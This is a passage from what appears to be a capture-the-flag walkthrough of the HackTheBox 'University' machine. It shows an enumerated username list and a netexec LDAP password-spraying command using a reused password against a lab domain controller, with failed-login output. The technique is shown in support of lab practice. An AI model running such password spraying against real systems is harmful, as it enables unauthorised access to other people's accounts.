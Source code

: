 | Martin.T        |
| William.B       |

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/University/files]
└─$ cat usernames.txt 
A.Crouz
Alice.Z
Arnold.G
Brose.W
C.Freez
Choco.L
Emma.H
George.A
Jakken.C
John.D
Kai.K
Kareem.A
Karol.J
Leon.K
Lisa.K
Martin.T
Nour Qasso
Nya Laracrof
Nya.R
Rose.L
Steven.P
WAO
William.B
carol
carol helgen
george
hana
karma.watterson
martin rose
martin.rose
nour
nya
steven Universe
steven.U
```

And of course we `password sprayed` again the see if the `password` of `WAO` was `re-used`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/University/files]
└─$ netexec ldap 10.129.153.87 -u usernames.txt -p passwords.txt --continue-on-success
SMB         10.129.153.87   445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:university.htb) (signing:True) (SMBv1:False)
LDAP        10.129.153.87   389    DC               [-] university.htb\A.Crouz:WebAO1337 
LDAP        10.129.153.87   389    DC               [-] university.htb\Alice.Z:WebAO1337 
LDAP        10.129.153.87   389    DC               [-] university.htb\Arnold.G:WebAO1337 
LDAP        10.129.153.87   389    DC               [-] university.htb\Brose.W:WebAO1337 
LDAP        10.129.153.87   389    DC               [-] university.htb\C.Freez:WebAO1337 
LDAP        10.129.153.87   389    DC               [-] university.htb\Choco.L:WebAO1337 
LDAP        10.129.153.87   389    DC               [-] university.htb\Emma.H:WebAO1337 
LDAP        10.129.153.87   389    DC               [-] university.htb\George.A:WebAO1337 
LDAP        10.129.153.87   389    DC               [-] university.htb\Jakken.C:WebAO1337 
LDAP        10.129.153.87   389    DC               [-] university.htb\John.D:WebAO1337 
LDAP        10.129.153.87   389    DC               [-] university.htb\Kai.K:WebAO1337 
LDAP        10.129.153.87   389    DC               [-] university.htb\Kareem.A:WebAO1337 
LDAP        10.129.153.87   389    DC               [-] university.htb\Karol.J:WebAO1337 
LDAP        10.129.153.87   389    DC               [-] university.htb\Leon.K:WebAO1337 
LDAP        10.129.153.87   389    DC               [-] university.htb\Lisa.K:WebAO1337 
```